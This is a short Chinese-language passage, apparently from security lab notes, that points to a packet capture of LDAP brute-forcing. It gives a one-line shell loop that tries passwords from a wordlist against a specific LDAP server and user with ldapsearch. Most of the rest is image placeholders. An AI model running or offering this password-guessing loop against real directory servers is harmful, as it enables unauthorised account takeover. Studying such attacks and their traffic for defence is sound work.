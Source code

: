 ![](images/17.jpg)

pcap 见 ldap brute username.pcap。
 
eg: 爆破密码：

	for i in $(cat test.txt); do echo -e "\n$i";ldapsearch -x -H ldap://10.10.40.50:389 -D "CN="tony",DC=lmrsec,DC=com" -w $i -b "DC=lmrsec,DC=com" |grep "# numEntrie";done

![](images/18.png)
